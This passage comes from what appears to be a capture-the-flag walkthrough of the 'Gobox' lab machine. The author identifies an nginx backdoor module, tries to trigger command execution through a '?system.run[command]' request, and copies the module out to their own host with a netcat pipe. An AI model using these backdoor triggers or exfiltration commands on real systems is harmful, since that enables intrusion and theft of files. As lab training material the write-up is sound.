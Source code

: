 
`50-backdoor.conf` is pretty suspicious!

    
    
    www-data@gobox:/etc/nginx/modules-enabled$ cat 50-backdoor.conf 
    load_module modules/ngx_http_execute_module.so;
    

Googling for “ngx_http_execute_module.so”, the first result is [this
GitHub](https://github.com/limithit/NginxExecute):

![image-20210826151346829](https://0xdfimages.gitlab.io/img/image-20210826151346829.png)

That definitely looks like what what’s on Gobox.

### Backdoor Fail

According to the docs, I should be able to trigger this backdoor by making a
request to the server with this enabled with the parameter
`?system.run[command]`.

Since the server is only listening on localhost, I’ll just use `curl` from my
shell. It doesn’t work:

    
    
    www-data@gobox:~$ curl http://127.0.0.1:8000?system.run[id]
    curl: (52) Empty reply from server
    

### Identify Argument

#### Exfil Copy

To take a look at the backdoor, I needed to find a copy. I knew from the
config that it’s named `ngx_http_execute_module.so`, so I just used `find`:

    
    
    www-data@gobox:~$ find / -name ngx_http_execute_module.so 2>/dev/null
    /usr/lib/nginx/modules/ngx_http_execute_module.so
    www-data@gobox:~$ ls -l /usr/lib/nginx/modules/ngx_http_execute_module.so 
    -rw-r--r-- 1 root root 163896 Aug 23 20:59 /usr/lib/nginx/modules/ngx_http_execute_module.so
    

I’m able to read it as well. I’ll send it back to a listening `nc` on my host
with:

    
    
    www-data@gobox:~$ cat /usr/lib/nginx/modules/ngx_http_execute_module.so | nc 10.10.14.6 443
    

At my host:

    
    
    oxdf@parrot$ nc -lnvp 443 > ngx_http_execute_module.so
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.113] 48084
    ^C
    